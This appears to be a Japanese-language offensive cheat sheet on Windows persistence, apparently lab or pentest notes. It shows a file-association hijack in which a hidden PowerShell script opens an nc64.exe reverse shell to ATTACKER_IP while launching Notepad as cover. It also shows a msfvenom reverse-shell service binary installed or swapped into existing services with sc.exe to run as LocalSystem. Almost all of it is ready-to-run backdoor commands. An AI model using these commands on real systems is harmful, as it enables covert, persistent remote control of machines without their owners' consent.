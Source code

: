 ### ファイル関連付け

```text
HKLM\Software\Classes\
に拡張子ごとのエントリがあり、そのデフォルト値はプログラムIDを意味する。
例えば、
HKLM\Software\Classes\.txt には「txtfile」というプログラムIDが入っている。

HKLM\Software\Classes\txtfile\shell\open\command
の中に、関連付けられたプログラムの参照が設定されている。

%SystemRoot%\system32\NOTEPAD.EXE %1
```

スクリプトを用意

```ps
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

レジストリ値を下記のように書き換える

```text
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor2.ps1 %1
```

## サービス

### サービス作成

ペイロードの作成

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

サービスの作成、開始

```ps
sc.exe create <servicename> binPath= "C:\Windows\System32\rev-svc.exe" start= auto
sc.exe start <servicename>
```

### 既存サービスの利用

利用可能なサービス一覧

```ps
sc.exe query state=all
```

サービス変更

```ps
sc.exe config <servicename> binPath= "C:\Windows\System32\rev-svc2.exe" start= auto obj= "LocalSystem"

sc.exe qc <servicename>
```
